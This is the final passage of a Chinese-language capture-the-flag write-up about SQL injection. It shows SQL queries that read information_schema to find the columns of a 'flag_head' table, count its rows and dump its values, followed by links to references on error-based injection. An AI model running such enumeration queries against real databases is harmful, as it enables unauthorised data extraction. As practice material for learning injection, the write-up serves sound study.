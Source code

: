 还是比较明显了 `flag_head` 就是我们要找的。

## 0x03.2 **探测字段**

```sql
-- 查询 flag_head 字段名
select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='flag_head'
-- Id,flag_h1

-- 查询列数量
select count(*) from flag_head
-- result: 3

-- 查询字段值
select group_concat(flag_h1) from flag_head 
-- zKaQ-YourHd,zKaQ-Refer,zKaQ-ipi
```

解题完成


## 0xGG 引用资料

+ [通过两道CTF题学习过滤单引号的SQL注入](https://blog.csdn.net/qq_42181428/article/details/105061424)
+ [sql报错注入： extractvalue 、 updatexml 报错原理](https://developer.aliyun.com/article/692723)
+ [SQL注入实战之报错注入篇 - 0x7e 是什么](https://www.cnblogs.com/c1047509362/p/12806297.html)